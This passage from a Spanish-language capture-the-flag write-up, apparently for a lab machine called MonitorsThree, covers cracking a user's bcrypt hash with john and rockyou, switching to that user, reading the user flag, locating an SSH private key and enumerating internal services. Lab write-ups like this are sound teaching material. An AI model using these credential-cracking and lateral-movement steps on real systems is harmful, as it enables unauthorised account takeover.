 ```
+----------+--------------------------------------------------------------+---------------+------------------+ 
3 rows in set (0.001 sec) 
  
MariaDB [cacti]>   
```

Con la ayuda de la herramienta **john** y el diccionario **rockyou**, logramos crackear el *hash bcrypt* del usuario *Marcus*:
```
john marcus.hash --wordlist=/usr/share/wordlists/rockyou.txt  
Using default input encoding: UTF-8 
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3]) 
Cost 1 (iteration count) is 1024 for all loaded hashes 
Will run 2 OpenMP threads 
Press 'q' or Ctrl-C to abort, almost any other key for status 
******************      (?)      
1g 0:00:00:04 DONE (2025-01-12 03:59) 0.2421g/s 108.9p/s 108.9c/s 108.9C/s 12345678910..chris1 
Use the "--show" option to display all of the cracked passwords reliably 
Session completed. 
```

Probamos la contraseña sobre el usuario *Marcus* y conseguimos leer la flag de *user.txt*:
```
www-data@monitorsthree:~/html/cacti/.github$ su marcus 
Password:  
marcus@monitorsthree:/var/www/html/cacti/.github$ id 
uid=1000(marcus) gid=1000(marcus) groups=1000(marcus) 
marcus@monitorsthree:/var/www/html/cacti/.github$  

marcus@monitorsthree:~$ ls -lna 
total 32 
drwxr-x--- 4 1000 1000 4096 Aug 16 11:35 . 
drwxr-xr-x 3    0    0 4096 May 26  2024 .. 
lrwxrwxrwx 1    0    0    9 Aug 16 11:29 .bash_history -> /dev/null 
-rw-r--r-- 1 1000 1000  220 Jan  6  2022 .bash_logout 
-rw-r--r-- 1 1000 1000 3771 Jan  6  2022 .bashrc 
drwx------ 2 1000 1000 4096 Aug 16 11:35 .cache 
-rw-r--r-- 1 1000 1000  807 Jan  6  2022 .profile 
drwx------ 2 1000 1000 4096 Aug 20 13:07 .ssh 
-rw-r----- 1    0 1000   33 Jan 11 23:10 user.txt 
marcus@monitorsthree:~$ cat user.txt  
******************** 
marcus@monitorsthree:~$  
```

## Escalada de privilegios
En el directorio de *Marcus*, encontraremos el fichero *id_rsa* dentro del directorio *.ssh*, ésta contiene la clave privada y nos permitirá establecer conexión mediante *SSH*.

Realizando una enumeración de los servicios internos, encontramos un servicio web corriendo en el puerto 8200:
```
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                                                                                                            
tcp        0      0 127.0.0.1:8200          0.0.0.0:*               LISTEN      -                    
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                    
tcp        0      0 127.0.0.1:38787         0.0.0.0:*               LISTEN      -                    
tcp        0      0 0.0.0.0:8084            0.0.0.0:*               LISTEN      -                    
```